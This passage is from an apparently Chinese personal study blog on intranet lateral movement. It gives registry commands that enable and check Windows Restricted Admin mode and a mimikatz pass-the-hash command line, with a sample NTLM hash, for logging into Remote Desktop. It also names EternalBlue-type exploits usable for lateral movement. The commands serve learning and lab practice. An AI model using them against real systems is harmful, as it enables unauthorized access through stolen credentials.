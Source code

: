 ![impacket-PTH](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/impacket-PTH.png)

### 利用PTH登录远程桌面

#### 利用条件

+ 远程主机开启了“受限管理员”模式
+ 用于登陆的用户位于远程主机的管理员组中
+ 拥有目标用户的hash

win server2012 R2以上的版本采用新版RDP，在受限管理员模式下，可以直接使用hash登录远程桌面，不需要提供明文密码

执行以下命令开启受限管理员模式

```
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
```

![open-DisableRestrictedAdmin](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/open-DisableRestrictedAdmin.png)

执行以下命令，查看机器是否开启了受限管理员模式

```
reg query "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin
```

如果为0则是开启状态，为1则关闭

![look-DisableRA](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/look-DisableRA.png)

当远程主机开启了受限管理员模式，使用mimikatz进行哈希传递攻击

```
privilege::debug sekurlsa::pth /user:Administrator /domain:hack.com /ntlm:c17336b6c2ea715e02e8bbd04c91e543 "/run:mstsc.exe /restrictedadmin"
```

哈希传递成功后执行`/run:mstsc.exe /restrictedadmin`命令，此种情况不需要密码即可登录，需要注意的是用户哈希需要是远程主机

管理组中的用户

然而我搭建的环境中的远程桌面没有该参数，懒得拉环境再测试了，本地机器是有的

## 有关横向的漏洞

内网环境中，可以利用这些漏洞来进行横向，例如永恒之蓝，MS08-67,CVE-2019-0708

![ms17](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/ms17.png)

## 总结一下

横向移动的方法还没有全部实现，像PTT的方法，我打算放到权限持久化或者是票据专题中来练习，所以，这篇文章是基础的，枯燥的，残缺的，下面总结的几个问题也有从往上剽窃来的回答，也有我自己的思考，有错误还希望师傅们指出。

+ 横向移动有哪些手法？
